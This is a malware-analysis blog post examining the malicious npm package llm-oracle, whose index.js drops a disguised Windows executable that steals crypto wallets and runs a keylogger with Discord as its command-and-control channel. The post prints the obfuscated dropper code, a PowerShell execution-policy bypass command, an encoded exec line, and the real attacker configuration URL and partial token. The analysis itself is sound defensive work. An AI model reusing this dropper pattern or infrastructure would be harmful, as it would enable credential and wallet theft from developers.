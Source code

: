 ```yaml
---
publishDate: 2024-11-04T00:00:00Z
title: 'Malicious Open Source Library Analysis: llm-oracle and its Payload'
image: /images/open-source-pkg-malware-analysis-llm-oracle.png
excerpt: Malware hidden in open source library packages are real. In this article, we analyse the malicious npm package llm-oracle.
tags:
  - vet
  - cloud
  - malware
---
```



The good folks at [socket.io](https://socket.io) published their research on
[Supply Chain Attacks Targeting LLM Application Developers: The Hidden Dangers of Fake Open Source Packages](https://socket.dev/blog/supply-chain-attacks-targeting-llm-application-developers) in which they shared their findings on discovery and analysis
of malicious npm package `llm-oracle`. This was interesting to us because
[vet](https://github.com/safedep/vet) detects a similar package, `redis-oracle`
as malicious but not `llm-oracle`. We decided to take a closer look at `llm-oracle`.

## Scanning for Malware using `vet`

[vet](https://github.com/safedep/vet) can be used to scan a package by its Package URL.

```shell
vet scan --purl pkg:/npm/redis-oracle@0.0.0
```

This results in a detection as expected

<Image src={VetRedisOracleMalwareScan} alt="vet scan result for redis-oracle" />

However, when we scan `llm-oracle`, we do not get any detection. This is not
entirely surprising because `vet` by default depends on [Package Analysis](https://github.com/ossf/package-analysis)
data for malware detection, which may not be accurate or up-to-date.

## Manual Analysis of `llm-oracle`

We decided to manually analyse `llm-oracle`. The first step was to identify
package metadata from npm registry.

```shell
npm view llm-oracle
```

This produces some useful information including author, publisher and URL
of the latest version of the package.

```shell
llm-oracle@1.0.2 | MIT | deps: 28 | versions: 3
[...]
dist
.tarball: https://registry.npmjs.org/llm-oracle/-/llm-oracle-1.0.2.tgz
[...]
dependencies:
[...]
maintainers:
- josh.weavery <josh.weavery@gmail.com>
published 3 months ago by josh.weavery <josh.weavery@gmail.com>
```

We then fetched the tarball and extracted the contents for local analysis. The
archive contained the following files:

```shell
-rw-r--r--  1 dev  wheel  16773255 Oct 26  1985 Base64Decode.ts
-rw-r--r--  1 dev  wheel       252 Oct 26  1985 HISTORY.md
-rw-r--r--  1 dev  wheel      1111 Oct 26  1985 LICENSE
-rw-r--r--  1 dev  wheel      3105 Oct 26  1985 README.md
-rw-r--r--  1 dev  wheel      2665 Oct 26  1985 index.js
-rw-r--r--  1 dev  wheel      2170 Oct 26  1985 package.json
```

The first step in any malware analysis process is to identify the file types.
The simplest way to do that is using the `file(1)` command. Surprisingly, the
first step itself gave us a strong malware indicator.

```shell
Base64Decode.ts: PE32+ executable (GUI) x86-64, for MS Windows
HISTORY.md:      ASCII text, with CRLF line terminators
LICENSE:         ASCII text, with CRLF line terminators
README.md:       ASCII text, with CRLF line terminators
index.js:        ASCII text, with CRLF line terminators
package.json:    JSON data
```

The `Base64Decode.ts` was a Windows `x86_64` executable with a `.ts` extension.
Before we jump right into the payload, we wanted to look into the dropper
`index.js` to confirm the behaviour. The `index.js` contained the following
semi-obfuscated code:

```javascript
const targetFilePath = path.join(
  process.env.LOCALAPPDATA,
  String('\u0063\u0068\u0072\u006f\u006d\u0065\u002e\u0065\u0078\u0065').replace(/\+/g, '')
);
```

```javascript
if (!fs.existsSync(targetFilePath))
{
  setTimeout(() => {
    f\u0073.copyFileSync(m\u006fd\u0065lFileP\u0061th, t\u0061rg\u0065tFileP\u0061th);
    e\u0078ec(`p\u006fwersh\u0065ll -\u0045x\u0065cut\u0069\u006fnP\u006fl\u0069cy Byp\u0061ss St\u0061rt-Pr\u006fcess -F\u0069leP\u0061th '${t\u0061rg\u0065tFileP\u0061th}' -V\u0065rb R\u0075n\u0041s`, (err\u006fr, std\u006ft, std\u0065rr) => {

    });
  }, 60000);
}
```

While advanced malware analysis techniques may differ (j/k), we used the good
old `ruby` interpreter to view the obfuscated strings

```shell
irb(main):001:0> "\u0063\u0068\u0072\u006f\u006d\u0065\u002e\u0065\u0078\u0065"
=> "chrome.exe"
```

```shell
irb(main):006:0> "f\u0073.copyFileSync(m\u006fd\u0065lFileP\u0061th, t\u0061rg\u0065tFileP\u0061th); e\u0078ec(`p\u006fwersh\u0065ll -\u0045x\u0065cut\u0069\u006fnP\u006fl
\u0069cy Byp\u0061ss St\u0061rt-Pr\u006fcess -F\u0069leP\u0061th '${t\u0061rg\u0065tFileP\u0061th}' -V\u0065rb R\u0075n\u0041s`, (err\u006fr, std\u006ft, std\u0065rr)"
=> "fs.copyFileSync(modelFilePath, targetFilePath); exec(`powershell -ExecutionPolicy Bypass Start-Process -FilePath '${targetFilePath}' -Verb RunAs`, (error, stdot, stderr)"
```

### The Payload

From `index.js`, we can identify that `Base64Decode.ts`, a Windows executable
was copied as `chrome.exe` to `%LOCALAPPDATA%` and executed using
`powershell.exe`. To understand the behaviour of the payload, we needed to get
our hands dirty with our old friend [IDA Pro](#) or its close cousin
[Ghidra](#). But unfortunately, `strings(1)` put us on a different path. We
found the following strings in the payload that indicated it was a Python
script packaged as executable using `PyInstaller`.

```shell
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
Installing PYZ: Could not get sys.path!
PYINSTALLER_STRICT_UNPACK_MODE
PyInstaller: FormatMessageW failed.
PyInstaller: pyi_win32_utils_to_utf8 failed.
```

Extracting the `PyInstaller` archive from the executable gave us the following
files:

<Image src={VetLlmOracleExtractedFiles} alt="Extracted files from llm-oracle payload" />

Among these files, `OH8xADfF8q.pyc` looked interesting with strings like

```shell
'D:\work\Python-Trojan-src\OH8xADfF8q.py
```

`0H8xADfF8q.pyc` in turn decompiles to something like this

```python
import os
import discord
[...]
exec(base64.b64decode(bytes('aW1wb3J0IGJhc2U2NDtl...', 'utf-8')).decode('utf-8'))
```

The base64 encoded string contains the actual payload, which decodes to
a Python script that performs various conventional malware activities.

#### Behaviour

- Looks for crypto wallets `metamask`, `tronlink`, `trustwallet`, `coinbase`,
    `flint`, `exodus`, `binance`, `phantom`, `Xverse`, `Slope`, `Solflare`,
    `Typhon`, `nami`, `keplr`, `okx`, `bitski`, `myetherwallet`
- Look for Chrome extension data for these wallets
- Downloads configuration from `https://bayard-front-833a4.web.app/start.dat`

```json
{
  "gid": "12 __76 __201 __8416 __20 __815 __932",
  "tkn": "MT __I __3NjIwMzQ __yNjY __2NDk0 __MzY2Ng.GUg __pUL.X __Xj7OFha __7Z5r __gYZHw __tatOdp3l __i6bZ __HrDQXDCn4"
}
```

- Connects to Discord server using the Guild ID and Token
- Creates a new channel using the current username and a random string
- Starts a keylogger
- Starts taking screenshot of active window
- Sends keystroke and screenshots to the Discord channel
- Starts a full command and control over Discord

#### File Transfer

The payload checks if the file requested for transfer is greater than 25MB. If
so, it fetches configuration from `https://api.gofile.io/getServer` and uploads
to `https://{server}.gofile.io/uploadFile` using Python `requests` library.
When we tried to access the URL, we get a `404 Not Found` response, indicating
the application is probably geo-fenced or checks for some request attribute.

## Conclusion

- `llm-oracle` is a malicious package that contains a Windows executable
- The packaging and sophistication of the malware appears to be low
- Common attacker TTP was used for payload execution using `powershell.exe`,
    `PyInstaller` and `base64` encoding
- We expect AVs and EDRs to detect this payload using behavioural analysis
- Discord was used as C2 server for exfiltration and command and control
